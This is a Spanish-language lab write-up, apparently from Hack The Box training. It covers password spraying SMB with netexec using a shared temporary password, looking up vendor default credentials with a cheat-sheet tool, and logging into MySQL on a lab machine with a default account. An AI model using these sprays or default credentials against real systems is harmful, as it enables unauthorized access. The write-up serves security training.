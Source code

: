En según que organizaciones se pone una contraseña conocida temporal (del tipo "ChangeMe123!") para que el usuario la cambie. 
Nosotros como atacantes podemos hacer fuerza bruta o "sparys" contra usuarios varios con una misma contraseña.

Por ejemplo, para un servicio "smb" podemos utilizar el comando:
```
Polika4RM@htb[/htb]$ netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```
Este simplemente sobre una lista de usuarios prueba una contraseña única. 

---

### DEFAULT CREDENTIALS

Con el siguiente comando nos podemos descargar el programa "creds", para que te facilite usuarios y contraseñas por defecto de diferentes tipos de tecnologías:
```
sudo apt install pipx
pipx install defaultcreds-cheat-sheet
```

Y ejecutando lo siguiente veré diferentes credenciales por defecto utilizadas en el servicio "linksys":
```
┌──(polika4r㉿kali)-[~]
└─$ creds search linksys
+---------------+---------------+------------+
| Product       |    username   |  password  |
+---------------+---------------+------------+
| linksys       |    <blank>    |  <blank>   |
| linksys       |    <blank>    |   admin    |
| linksys       |    <blank>    | epicrouter |
| linksys       | Administrator |   admin    |
| linksys       |     admin     |  <blank>   |
| linksys       |     admin     |   admin    |
| linksys       |    comcast    |    1234    |
| linksys       |      root     |  orion99   |
| linksys       |      user     |  tivonpw   |
| linksys (ssh) |     admin     |   admin    |
| linksys (ssh) |     admin     |  password  |
| linksys (ssh) |    linksys    |  <blank>   |
| linksys (ssh) |      root     |   admin    |
+---------------+---------------+------------+
```

---

**1. Use the credentials provided to log into the target machine and retrieve the MySQL credentials. Submit them as the answer. (Format: <\username>:<\password>)
SSH to  with user "sam" and password "B@tm@n2022!"


Primero de todo, ingreso via SSH con las credenciales dadas:
```
ssh sam@10.129.75.192
	#introduzco el password "B@tm@n2022!"
```

Con esto, tengo que ingresar en un servidor mysql, pues lo haré mediante: 
```
mysql -h localhost -u <nombre_usuario> -p
	# me pedirá una contraseña
```

Para buscar contraseñas por defecto, ejecuto:
```
└─$ creds search mysql
+---------------------+-------------------+----------+
| Product             |      username     | password |
+---------------------+-------------------+----------+
| mysql (ssh)         |        root       |   root   |
| mysql               | admin@example.com |  admin   |
| mysql               |        root       | <blank>  |
| mysql               |      superdba     |  admin   |
| scrutinizer (mysql) |    scrutremote    |  admin   |
+---------------------+-------------------+----------+

```

Hago todas las combinaciones una por una y veo que la que funciona es: *superdba:admin*

